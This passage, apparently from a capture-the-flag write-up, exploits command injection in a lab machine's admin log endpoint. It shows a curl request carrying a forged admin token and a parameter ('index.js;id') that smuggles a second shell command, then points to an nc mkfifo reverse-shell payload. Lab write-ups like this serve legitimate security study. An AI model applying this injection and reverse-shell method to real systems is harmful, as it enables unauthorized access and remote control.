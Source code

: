 ![error](/assets/images/secret/20220326112803.png)

if we make a get request as admin to `/logs` with parameter `file` it will execute command :

```bash
git log --oneline ${file}
```

we can try see if it works :

![error](/assets/images/secret/20220326113127.png)

and it is working , we can try some command injection here :

```bash
curl -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNlZGEzZTQ0NWI1YzA0NWM2MzRlMTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdGVycy5jb20iLCJpYXQiOjE2NDgyODY0NTB9.V0Sp_hlU1cYAZ_tYZ3_vHJuQ2saLfoiaxPrzZssD2-E" "http://10.10.11.120/api/logs?file=index.js;id"
```

![error](/assets/images/secret/20220326113231.png)

# Foothold:

Hence we have command injection we can now try to get a reverse shell .

the `nc mkfifo` payload works fine , at [revshells.com](https://www.revshells.com/), but make sure you url-encoded it , i have used [this](https://www.urlencoder.org/)
